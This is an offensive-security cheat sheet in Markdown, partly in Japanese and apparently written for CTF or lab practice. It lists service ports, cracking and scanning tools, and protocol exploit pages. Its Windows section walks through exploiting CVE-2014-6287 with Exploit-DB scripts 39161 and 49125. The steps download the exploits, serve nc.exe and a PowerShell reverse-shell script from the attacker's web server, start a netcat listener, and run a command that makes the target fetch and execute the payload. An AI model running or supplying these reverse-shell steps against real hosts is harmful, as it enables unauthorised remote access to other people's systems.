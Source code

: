# CheatSheet

## Ports
- 20, 21 / FTP
- 22 / SSH
- 23 / Telnet
- 25 / SMTP
- 53 / DNS
- 80 / HTTP
- 110 / POP3
- 443 / HTTPS
- 139, 445 / SMB
- NFS / 2049
- MySQL / 3306

## Tools
- [Nmap](nmap.md)
- [MSFVenom](msfvenom.md)
- [Gobuster](gobuster.md)
- [Hydra](hydra.md)
- [John the Ripper](john.md)
- [Hashcat](hashcat.md)

## Exploit by protocol
- [SSH](ssh.md)
- [SMB](smb.md)
- [Telnet](telnet.md)
- [NFS](nfs.md)
- [FTP](ftp.md)
- [SMTP](smtp.md)
- [MySQL](mysql.md)

## Windows

### CVE : 2014-6287 ([39161](https://www.exploit-db.com/exploits/39161))
You can execute arbitrary commands on the remote Windows host.

Download the python script to kali
```
wget https://www.exploit-db.com/raw/39161 -O /tmp/39161.py
```

Download netcat binary file.  
39161.pyではあらかじめローカルIP、ポートを指定する必要あり。指定したアドレスから、netcatの実行可能ファイルをnc.exeという名前でダウンロードする仕様。そして、ダウンロードしたnc.exeを実行し、そのローカルIP、ポートにコネクトバックする（リバースシェル）
```
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/windows/x86/ncat.exe -O ~/Downloads/steel/nc.exe
```

Start python web server in kali
```
cd ~/Downloads/steel/
python3 -m http.server 80
```

Start netcat listener
```
rlwrap nc -lvnp ${lport}
```

The following command needs to be executed TWICE.
Download nc.exe first, and connects back to the listner on Kali second time. 
```
python 39161.py $rhost [RPORT]
```

### CVE : 2014-6287 ([49125](https://www.exploit-db.com/exploits/49125))
You can execute arbitrary commands on the remote Windows host.

Download the python script to kali
```
wget https://www.exploit-db.com/raw/49125 -O /tmp/49125.py
```

Download the powershell script to kali.
Local IP and port in the script needs to be changed.
```
wget https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1 -O ~/Downloads/steel/mini-reverse.ps1
```

Start python web server in kali
```
cd ~/Downloads/steel/
python3 -m http.server 80
```

Start netcat listener
```
rlwrap nc -lvnp ${lport}
```

Execute the script. Execute the commands passed as the third argument.
```
cd /tmp
python3 49125.py $rhost [RPORT] "C:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe -c wget 'http://${lhost}/mini-reverse.ps1' -outfile 'C:\Users\Bill\Desktop\mini-reverse.ps1'; C:\Users\Bill\Desktop\mini-reverse.ps1" 
```

## Memo
*1 python3で実行した場合、エラーが発生する。

## Reference

Exploit DB  
https://www.exploit-db.com/

MSF Console Commands  
https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/

Meterpreter Commands  
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

Reverse Shell Cheat Sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

GTFOBins  
https://gtfobins.github.io/

Linux - Privilege Escalation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#find-suid-binaries

CrackStation  
https://crackstation.net/

Hash Analyzer  
https://www.tunnelsup.com/hash-analyzer/
